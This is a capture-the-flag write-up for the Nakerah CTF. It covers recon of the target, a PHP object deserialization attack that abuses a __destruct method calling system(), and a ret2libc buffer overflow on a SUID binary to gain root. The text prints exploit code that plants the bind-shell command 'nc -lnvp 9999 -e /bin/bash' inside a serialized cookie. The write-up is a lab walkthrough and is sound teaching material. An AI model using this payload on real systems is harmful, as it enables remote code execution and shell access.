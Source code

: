 <div align="center"><h1>Nakerah CTF </h1></div>
Peace, mercy and blessings of God 

today we are going to solve an interesting CTF from  [Nakerah!](www.nakerah.net)
>our goal is to read root's flag  
expolit will be devided into two missions first deserilization attack then ret2libc

so with all that being said; let's right jump in !!

# First mission

first we have that static page 

[logo]: img/1.png
![alt text](img/1.png "static page")

looking around source code nothing interested there 

[logo]: img/2.png
![alt text](img/2.png "source code")

so let's nmap it

[logo]: img/3.png
![alt text](img/3.png "nmap result")

as we see we have some other ports 
* 22 ssh we dont have any creds and it seems to be updated
* 25 smtp is filtered so we maybe come back to it later
* 80 http we already checked it

so lets visit port 8080 and see what behind the scene

[logo]: img/4.png
![alt text](img/4.png "port 8080")

just another blank page (: i get bored so let's gobuster it :XD

 [logo]: img/5.png
![alt text](img/5.png "gobuster")

 we have /backup file seems to be interesting let's dump it
 
 [logo]: img/6.png
![alt text](img/6.png "source code")

 after downloading the file it's php code 
 [logo]: img/7.png
![alt text](img/7.png "backup file")

 # analysis of code
 ```php
 class exCommand{
        public function __destruct(){
            system($this->command);
        }
    }
 ```
* here it creates an exCommand class and use a magic method `destruct` then pass the value of command propert to `system` function
Destruct is php magic method automatically called and allows you to perform some operations before destroying an object which will be our attack vector

```php
class Hello{
        private $name;
        private $role;
        private $isSet;
        public function check(){
           $this->isSet=isset($_COOKIE['name']);
        }
        
        }
    }
```

* here creating class Hello with some private properties and check function to verify if there's a cookie name  

```php
public function printHello(){
            if($this->isSet){
                echo "<br >" . $_COOKIE['name']."<br /><br /><br />";
                echo "Hello " . $this->name . "<br>";
                echo "your role is " . $this->role . "\n";
                echo "<br ><br ><br >";
            }else{
                echo "good";
            }
```

* another function `printHello` fisrt verify if there's a property isSet it will print our cookie, say hello to our cookie name and print our role but if not it will just print good

```php
$obj = unserialize($_COOKIE['name']);
$obj->check();
$obj->printHello();
```

* at last here it create an var, assign it's value to our deserialized cookie passing it to check and `printHello` functions

```console 
so  stay focus here 
it's `deserilization attack` and we need to pass our command to exCommand function which has that magic method
we have two problems 
first with exCommand class we used a property command without identifying it so in our exploit 
we will have to pass it to an object and  give it a vlaue
second problem  we have to bypass that cookie checks so let's write our exploit code
the trick here is if we bypass check function it will just print some staff 
if we try to target our exCommand class it will fail with check function so ...
```

so we will create `exCommand object`, identify command property with a value (our command) put it inside  `Hello calss` and selialize all that staff together

[logo]: img/ex.png
![alt text](img/ex.png "exploit code")

# code analysis:

```php
class exCommand{
   public function __destruct()}
   system($this->command);
   }
   }
 ```
 
* here we just create the same exCommand class,

```php
$x = new exCommand;
$x->command = "nc -lnvp 9999 -e /bin/bash";
create our object and give the command property our target command (bind shell)$y = new Hello;
class Hello{
        public $name;
        public $role;
        public $isSet;
        public $dummy;
}
```

* create class hello with some properites (dummy one is interesring just continue ..!)

```php
$y->name = "fady";
$y->role = "hacker";
$y->isSet = 1;
$y->dummy = $x;
print serialize($y);
```

* creating an oject of Hello class assining some values to properties and what interesting here it that `dummy propety` we gave it a value of  our `exCommand object` and finally serialize all that staff 

here is our final serialized data

[logo]: img/8.png
![alt text](img/8.png "serialized data")

and let's try connect

[logo]: img/9.png
![alt text](img/9.png "sending payload")

* and voila we get our shell 

[logo]: img/sh.png
![alt text](img/sh.png "spawingin a shell")

<div align="center"><h1>fisrt mission completed successfully</h1></div

---
---

# Second mission

in the root dir we got README file

[logo]: img/11.png
![alt text](img/11.png "static page")

>NX which stand for non-executable so here we know it's BOF expolit with ret2libc

after some enum we got that interesting suid file

[logo]: img/12.png
![alt text](img/12.png "static page")

so after getting it in our local machine to understand it better 

[logo]: img/13.png
![alt text](img/13.png "static page")

we can identify that NX is enabled trying to run it gives seg fault after trying passing some args it just exit

[logo]: img/14.png
![alt text](img/14.png "static page")

so let's create our buffer with msf-patter-create and fire up gdb to get the exact offset

[logo]: img/15.png
![alt text](img/15.png "static page")

to get things more easily let's check ASLR in the vectim machine

[logo]: img/16.png
![alt text](img/16.png "static page")

and happy news  will make our life easier so hence we will work in our target machine to get some address

[logo]: img/17.png
![alt text](img/17.png "static page")

we got addresses of system and exit now we need address of /bin/sh

[logo]: img/18.png
![alt text](img/18.png "static page")

to get the exact address of /bin/sh in the run time we add its address to the starting of libc address

[logo]: img/19.png
![alt text](img/19.png "static page")

now our exploit is complete lets have a lock at it

[logo]: img/20.png
![alt text](img/20.png "static page")

now let's give it a try

[logo]: img/21.png
![alt text](img/21.png "static page")

```console
and finally i want to say to Nakerah team “You're the best.” 

and oxf1f1 “You knocked me off my feet!”
```

 
